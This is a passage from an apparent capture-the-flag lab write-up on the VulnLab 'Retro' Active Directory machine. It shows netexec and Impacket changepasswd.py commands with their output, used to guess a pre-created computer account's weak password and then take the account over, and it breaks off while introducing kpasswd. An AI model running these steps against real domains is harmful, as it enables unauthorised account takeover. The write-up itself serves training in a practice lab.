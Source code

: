 I got a file `Todo.txt` lets take a look:

```
Thomas,

after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best

James
```

This text file hints that there is some ancient banking software and some pre-created computer account, judging by that I can safely assume that they are talking about the account `BANKING$`, I tried onec again some weak credentials like `$BANKING:banking` and I got this result:

```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u BANKING$ -p 'banking'
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
```

The result I got is `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` which means that the password is correct! (REF: https://trustedsec.com/blog/diving-into-pre-created-computer-accounts)
But I cannot use this account until the password is changed, so lets do that. There is `changepasswd.py` by Impacket (https://github.com/fortra/impacket/blob/master/examples/changepasswd.py) which I can use to change the password via RPC, the thing that I need is another user, which I already have (`trainee`). There are other methods to change the password like `kpasswd` as well.

## Change the password via RPC (imapcket's changepasswd.py) Method #1

```
(impacket-env) syl@sylsec:~/tools/impacket/examples$ python changepasswd.py retro.vl/'BANKING$':'banking'@10.10.64.243 -altuser trainee -altpass trainee
Impacket v0.12.0.dev1+20230921.20754.9c8f344b - Copyright 2023 Fortra

New password: 
Retype new password: Summer2018!
[!] Attempting to *change* the password of retro.vl/BANKING$ as retro.vl/trainee. You may want to use '-reset' to *reset* the password of the target.
[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\trainee
[*] Password was changed successfully.
```

## Using `kpasswd` Method #2

I can go with the LDAP way of chaning the password using the binary `kpasswd` and since this is uncommon on Linux you can install it with:

